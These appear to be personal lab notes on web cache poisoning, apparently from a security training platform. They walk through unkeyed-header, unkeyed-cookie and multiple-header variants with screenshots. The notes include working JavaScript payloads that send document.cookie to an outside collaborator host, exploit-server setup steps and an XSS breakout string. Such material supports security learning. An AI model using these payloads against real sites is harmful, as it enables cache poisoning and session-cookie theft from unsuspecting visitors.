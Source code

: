 ___

Watch for `/resources/js/tracking.js` file and `X-Cache: hit` header in response.
If you got only tracking.js without X-Cache - no cache poisoning here.

![[Pasted image 20240808103007.png]]

If you got both file and header, the first thing you should try is to inject your exploit server into **Host:** or **X-Forwarded-Host:** headers and check them in response

![[Pasted image 20240808103015.png]]

You got the poisoned cache with X-Forwarded-Host? Cool, now go to your exploit server, set the File name /resources/js/tracking.js and in Body section paste the next payload: `document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')`. Poison web cache with your server and wait for victim's cookies.

```js
document.location='https://OASTIFY.COM/?cookies='+document.cookie;
```

# Web cache poisoning with an unkeyed header

The application supports the use of a custom HTTP header to override the Host header, and uses a cache that can be manipulated into saving responses that have been influenced by this header.  
  
Burp added the following headers to the request:  
  
X-Forwarded-Host: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com  
X-Host: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com  
X-Forwarded-Server: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com


![[Pasted image 20240808105803.png]]

## Cookie steal

X-Forwarded-Host: exploit-0ab30085047ba7ec862a98ec018d0091.exploit-server.net

Exploit server: 
	File: /resources/js/tracking.js
	Body: document.location='http://00ytfwduj1605olk3s3bahg31u7mvb.oastify.com/?cookies='+document.cookie;

![[Pasted image 20240808112148.png]]


# Web cache poisoning with an unkeyed cookie

![[Pasted image 20240808152709.png]]

```js
test"-alert(1)-"test
```

![[Pasted image 20240808152936.png]]

# Web cache poisoning with multiple headers

![[Pasted image 20240809035334.png]]

The `Location` header shows that you are being redirected to the same URL that you requested, but using `https://`

![[Pasted image 20240809035608.png]]

